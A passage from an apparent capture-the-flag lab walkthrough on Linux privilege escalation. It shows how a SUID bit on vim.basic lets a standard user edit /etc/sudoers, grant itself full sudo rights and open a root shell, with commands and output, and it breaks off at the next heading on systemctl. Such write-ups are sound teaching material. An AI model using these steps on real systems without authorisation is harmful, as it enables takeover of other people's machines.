 
### #4 - vim.basic SUID

Looking at the permission for **/usr/bin/vim.basic** shows us it has a SUID bit set:

`ls -al /usr/bin/vim.basic`

```
-rwsr-xr-x 1 root root 2441416 Oct 14  2020 /usr/bin/vim.basic
```

With this we can edit files only accessable by root as a standard user. For example if we try and display the **/etc/sudoers** file:

`cat /etc/sudoers`

```
cat: /etc/sudoers: Permission denied
```

But if we edit it with vim.basic:

`vim.basic /etc/sudoers`

![](walkthroughs/Unpublished/gRoot/groot10.png)

It works, and on top of that we can change the file. We can change our localuser account to have full sudo access. I comment out the 2 lines at the bottom for our user and then add a line below the root account with ALL to everything:

![](walkthroughs/Unpublished/gRoot/groot11.png)

Note: you have to use **:wq!** to get it to save the file.

Now when checking `sudo -l`:

```
sudo: unable to resolve host ip-10-50-153-253
Matching Defaults entries for localuser on ip-10-50-153-253:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User localuser may run the following commands on ip-10-50-153-253:
    (ALL : ALL) ALL
```

And running a quick `sudo bash` gets us a root shell:

```
localuser@ip-10-50-153-253:~$ sudo bash
sudo: unable to resolve host ip-10-50-153-253
root@ip-10-50-153-253:~# whoami
root
```

---

### #5 - systemctl SUID
